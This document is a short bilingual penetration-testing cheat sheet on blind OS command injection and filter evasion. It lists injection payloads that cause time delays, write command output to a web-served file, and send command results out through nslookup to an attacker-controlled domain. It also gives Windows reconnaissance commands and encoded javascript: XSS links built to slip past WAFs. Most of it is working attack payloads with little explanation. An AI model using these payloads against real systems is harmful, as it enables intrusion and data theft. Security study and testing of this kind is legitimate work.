 ## Time delays
~~~bash
& ping -c 10 127.0.0.1 &
~~~

## Exploiting blind OS command injection by redirecting output
~~~bash
& whoami > /var/www/static/whoami.txt &
# https://vulnerable-website.com/whoami.txt
~~~

## Blind OS command injection with out-of-band data exfiltration
~~~bash
& nslookup `whoami`.web-attacker.com &
& nslookup $(whoami).web-attacker.com &
~~~

## Comandos útiles Windows
~~~cmd
whoami
ver
ipconfig /all
netstat -an
tasklist
~~~

## Tipos de ofuscación

### URL encode
+ % character and their 2-digit hex (`%26`) (&)
+ Cyberchef (*URL Decode*) (*URL Encode*)

### HTML encoding
+ prefixed with an ampersand and terminated with a semicolon. In many cases, a name can be used for the reference. For example, the sequence `&colon;` represents a colon character.
+ Alternatively, the reference may be provided using the character's **decimal** or **hex code** point, in this case, `&#58;` (:) and `&#x3a;` (:)respectively.
+ when using decimal or hex-style HTML encoding, you can optionally include an arbitrary number of leading zeros in the code points. Some WAFs and other input filters fail to adequately account for this.
	+ `<a href="javascript&#58;alert(1)">Click me</a>`
	+ `<a href="javascript&#00058;alert(1)">Click me</a>`
	+ `<a href="javascript&#00000000000000000000058;alert(1)">Click me</a>`
+ Cyberchef
	+ Decimal: (*From decimal*) (*To decimal*)
	+ Hex code: (*to hex*) (*from hex*)
	+ HTML encoding: (*From HTML Entity*) (*Ti HTML Entity*)
